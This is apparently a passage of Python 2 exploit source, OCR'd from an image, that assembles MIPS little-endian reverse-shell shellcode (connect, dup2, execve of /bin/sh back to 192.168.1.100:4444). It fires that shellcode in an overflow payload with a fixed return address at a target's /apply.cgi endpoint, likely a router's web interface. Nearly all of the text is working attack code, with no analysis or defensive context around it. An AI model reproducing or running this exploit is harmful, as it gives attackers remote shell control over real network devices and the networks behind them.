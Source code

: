 ```
16     mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
17     mipselshell+="\xfd\xff\x0f\x34"   # li t7,0xfffd
18     mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
19     mipselshell+="\xe2\xff\xaf\xaf"   # sw t7,-30(sp)
20     mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\x0e\x3c"   # lui t6,0x1f90
21     mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\xce\x35"   # ori t6,t6,0x1f90
22     mipselshell+="\xe4\xff\xae\xaf"   # sw t6,-28(sp)
23     mipselshell+=struct.pack('<2c',hosts[1],hosts[0]) + "\x0e\x3c"   # lui t6,0x7f01
24     mipselshell+=struct.pack('<2c',hosts[3],hosts[2]) + "\xce\x35"   # ori t6,t6,0x101
25     mipselshell+="\xe6\xff\xae\xaf"   # sw t6,-26(sp)
26     mipselshell+="\xe2\xff\xa5\x27"   # addiu a1,sp,-30
27     mipselshell+="\xef\xff\x0c\x24"   # li t4,-17
28     mipselshell+="\x27\x30\x80\x01"   # nor a2,t4,zero
29     mipselshell+="\x4a\x10\x02\x24"   # li v0,4170  # sys_connect
30     mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
31     mipselshell+="\xfd\xff\x11\x24"   # li s1,-3
32     mipselshell+="\x27\x88\x20\x02"   # nor s1,s1,zero
33     mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
34     mipselshell+="\x21\x28\x20\x02"   # move a1,s1 # dup2_loop
35     mipselshell+="\xdf\x0f\x02\x24"   # li v0,4063 # sys_dup2
36     mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
37     mipselshell+="\xff\xff\x10\x24"   # li s0,-1
38     mipselshell+="\xff\xff\x31\x22"   # addi s1,s1,-1
39     mipselshell+="\xfa\xff\x30\x16"   # bne s1,s0,68 <dup2_loop>
40     mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
41     mipselshell+="\x62\x69\x0f\x3c"   # lui t7,0x2f2f "bi"
42     mipselshell+="\x2f\x2f\xef\x35"   # ori t7,t7,0x6269 "//"
43     mipselshell+="\xec\xff\xaf\xaf"   # sw t7,-20(sp)
44     mipselshell+="\x73\x68\x0e\x3c"   # lui t6,0x6e2f "sh"
45     mipselshell+="\x6e\x2f\xce\x35"   # ori t6,t6,0x7368 "n/"
46     mipselshell+="\xf0\xff\xae\xaf"   # sw t6,-16(sp)
47     mipselshell+="\xf4\xff\xa0\xaf"   # sw zero,-12(sp)
48     mipselshell+="\xec\xff\xa4\x27"   # addiu a0,sp,-20
49     mipselshell+="\xf8\xff\xa4\xaf"   # sw a0,-8(sp)
50     mipselshell+="\xfc\xff\xa0\xaf"   # sw zero,-4(sp)
51     mipselshell+="\xf8\xff\xa5\x27"   # addiu a1,sp,-8
52     mipselshell+="\xab\x0f\x02\x24"   # li v0,4011 # sys_execve
53     mipselshell+="\x0c\x01\x01\x01"  # syscall 0x40404
54     print 'ending ...'
55     return mipselshell 
56 try:
57     target = sys.argv[1]
58 except:
59     print "Usage: %s <target>" % sys.argv[0]
60     sys.exit(1) 
61 url = "http://%s/apply.cgi" % target
62 #ip='192.168.230.136'
63 sip='192.168.1.100'     #reverse_tcp local_ip
64 sport = 4444            #reverse_tcp local_port
65 DataSegSize = 0x4000
66 host=socket.ntohl(struct.unpack('<I',socket.inet_aton(sip))[0])
67 payload = makepayload(host,sport)
68 addr = struct.pack("<L",0x10001AD8)
69 DataSegSize = 0x4000
70 buf = "\x00"*(10000-len(payload))+payload+addr*(DataSegSize/4) 
71 req = urllib2.Request(url, buf)
72 print urllib2.urlopen(req).read()

```
